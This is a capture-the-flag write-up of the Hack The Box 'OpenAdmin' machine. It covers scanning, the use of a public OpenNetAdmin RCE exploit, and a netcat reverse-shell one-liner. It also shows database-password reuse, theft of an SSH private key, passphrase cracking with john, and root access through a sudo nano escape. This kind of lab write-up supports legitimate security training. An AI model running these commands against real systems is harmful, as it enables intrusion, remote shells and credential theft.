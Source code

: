 ```yaml
---
title: OpenAdmin - easy HTB
date: 2023-10-10 10:11:53 +/-0800
categories: [writeup, hackthebox]
writeup: :title
permalink: /openadmin
tags: [htb, writeup, easy, Linux, CVE, Privileges Escalation]     # TAG names should always be lowercase
---
```


- OS: **Linux**
- Difficulty: **Easy**
- Author: **4nh4ck1ne**

### Scanning 

the challenges start with a scan of the most common ports: `nmap -A 10.10.10.171 -T4`

```       
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

We can see it is an Ubuntu machine !

### Enumeration 

before walk on the app you can lauch a gobuster brute force scan: `gobuster dir -u http://10.10.10.171 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

```
/music                (Status: 301) [Size: 312] [--> http://10.10.10.171/music/]
/artwork              (Status: 301) [Size: 314] [--> http://10.10.10.171/artwork/]
/sierra               (Status: 301) [Size: 313] [--> http://10.10.10.171/sierra/]

```

If you go on `/music` you can see an bouton name login. 

![/music](https://github.com/TheF0rceAwak5ns/TheF0rceAwak5ns.github.io/blob/main/assets/OpenAdmin/music.png)

Yon are redirect to an web page `/ona`, it is an app named OpenNetAdmin lets if an exploit existe on this current version (v18.1.1).

![ona](https://github.com/TheF0rceAwak5ns/TheF0rceAwak5ns.github.io/blob/main/assets/OpenAdmin/Ona.png)

Seems that yes because on exploitdb can find a code to exploit the vulnerability more it is an rce, this vulnerability will give us directly access to the server. If we look for a POC in python that works well. [POC](https://github.com/amriunix/ona-rce/tree/master)

```
#install reqirements
pip3 install --user requests

#Get the POC
git clone https://github.com/amriunix/ona-rce.git

#lauche the exploit
python3 ona-rce.py exploit http://10.10.10.171/ona/
[*] OpenNetAdmin 18.1.1 - Remote Code Execution
[+] Connecting !
[+] Connected Successfully!
sh$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We are on the machine! I will migrate my shell to a tty shell thanks to a pwncat:

```
#lauch pwncat
pwncat :9001

#run the reverse connection
sh$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.3 9001 >/tmp/f
```

### Privileges Escalation

the first mouvement is www-data => jimmy so we now have a stable shell. To begin the elevation of privileges we will look at the files of the website at the password quetes.

in the site folders we can find in this directory /local/config a file named "database_settings.inc.php" containing a mysql database password.

```php
<?php

$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);

?>
```

I have tried to access the local database that which feasible but no information interested is there. I then try to reuse password on local users (joanna, jimmy) and that market for jimmy we are now jimmy : `su jimmy
#enter password n1nj4W4rri0R!`


Ok we are now jimmy user next is to become joanna.

If we are still looking in the web file you will necessarily see from the rating of/var/www. you will still find counting in /html we will say that this sounds the web file that we had everything with gobuster. If we look at the side of "internal" a whole new world offered to us. If we look at the confiuguration side of the apache2 server we can see that there is an active virtualhost on port 52846.

```
jimmy@openadmin:/etc/apache2/sites-available$ cat internal.conf 
Listen 127.0.0.1:52846

<VirtualHost 127.0.0.1:52846>
    ServerName internal.openadmin.htb
    DocumentRoot /var/www/internal

<IfModule mpm_itk_module>
AssignUserID joanna joanna
</IfModule>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>
```

Let’s look at the php file more pret including main.php: `cat main.php
`

```php
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); }; 
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```

it seems that this application displays the private key of the user joanna tries to curl the url and see the result: `curl http://localhost:52846/main.php`

BIIM we have joanna’s private key, try to connect with: 
```
chmod 600 id_rsa

ssh -i id_rsa joanna@10.10.10.171                           
Enter passphrase for key 'id_rsa': 
```

Thin the key is protected by a passphrase let’s try cracking with john.

```
ssh2john id_rsa > passphrase.txt

john passphrase.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

We have cracked the key we can now log in and enter the secret of the key.

ok we are now on user Joanna to start enumeration I directly look at the sudo rights.

```
sudo -l

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```

So the user joanna can therefore launch the command/bin/nano/opt/priv without password with must root, well let’s look at [GTfobins](https://gtfobins.github.io/#+sudo)  if there is a way to abuse nano.

![gtfobins](https://github.com/TheF0rceAwak5ns/TheF0rceAwak5ns.github.io/blob/main/assets/OpenAdmin/Gtfobins.png)

the abuse of nano binary is done as follows:

```
sudo /bin/nano /opt/priv

#Press control and R touch
^R
#Press ctrl+x touche
^X
#run the command
reset; sh 1>&0 2>&0
```

you Get the root Great job !! 

![root](https://github.com/TheF0rceAwak5ns/TheF0rceAwak5ns.github.io/blob/main/assets/OpenAdmin/root.png)
